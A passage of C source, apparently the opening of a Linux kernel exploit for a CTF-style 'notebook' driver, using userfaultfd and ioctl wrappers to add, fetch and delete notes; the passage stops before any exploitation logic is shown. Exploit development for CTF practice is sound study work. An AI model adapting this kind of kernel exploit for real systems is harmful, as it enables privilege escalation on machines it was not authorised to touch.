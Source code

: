 ```c
//
// Created by root on 22-7-28.
//
#include <poll.h>
#include <errno.h>
#include <fcntl.h>
#include <stdio.h>
#include <signal.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <pthread.h>
#include <stdbool.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/syscall.h>
#include <linux/userfaultfd.h>

#include "uffdexploit.h"

#define ADD_CODE 256
#define GIFT_CODE 100
#define DELETE_CODE 512
#define EDIT_CODE 768

int fd = 0;

typedef struct notearg{
    size_t idx;
    size_t size;
    void* buf;
}notearg;

void noteadd(size_t idx, size_t size, void* buf);
void notegift(void* buf);
void notedel(size_t idx);
void noteedit(size_t idx, size_t size, void* buf);
void notewrite(const char* buf, size_t idx);
void notebook_msg();

void noteadd(size_t idx, size_t size, void* buf){
    printf("\033[1;34mAdd note #%zu...\n\033[m", idx);
    notearg arg = {idx, size, buf};
    if(size <= 0x60)
        ioctl(fd, ADD_CODE, &arg);
    else{
        printf("\033[1;34mAdding note which has size larger than 0x60, use edit...\n\033[m");
        arg.size = 0x60;
        ioctl(fd, ADD_CODE, &arg);
        arg.size = size;
        noteedit(idx, size, buf);
    }
}
void notegift(void* buf){
    printf("\033[1;32mFetch note information...\n\033[m");
    notearg arg = {0, 0, buf};
    ioctl(fd, GIFT_CODE, &arg);
}
void notedel(size_t idx){
    printf("\033[1;34mDelete note #%zu...\n\033[m", idx);
    notearg arg = {idx, 0, NULL};
    ioctl(fd, DELETE_CODE, &arg);
```